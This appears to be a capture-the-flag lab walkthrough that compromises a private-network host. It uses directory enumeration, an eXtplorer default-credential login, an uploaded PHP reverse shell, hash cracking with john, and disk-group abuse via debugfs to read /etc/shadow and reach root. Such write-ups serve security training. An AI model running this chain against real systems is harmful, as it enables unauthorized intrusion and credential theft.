Trying dirb:
```
dirb http://192.168.236.16
```


We find extplorer:


Trying `admin:admin`


Now upload a php-reverse-shell.php:
```
http://192.168.236.16/shell.php
```

We have a shell as www-data.

Now digging in the extplorer:

We find hashes

We can crack the dora hash:
```
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

Now we can switch to dora in the shell:

We are in disk group so we can access root user.

So now checking the disk `/` is mounted on:
```
df -h
```


```
debugfs /dev/mapper/ubuntu--vg-ubuntu--lv
```
```
cat /etc/shadow
```


Now cracking the hash with john we get the password for root:

We can switch to root:
```
su root
```


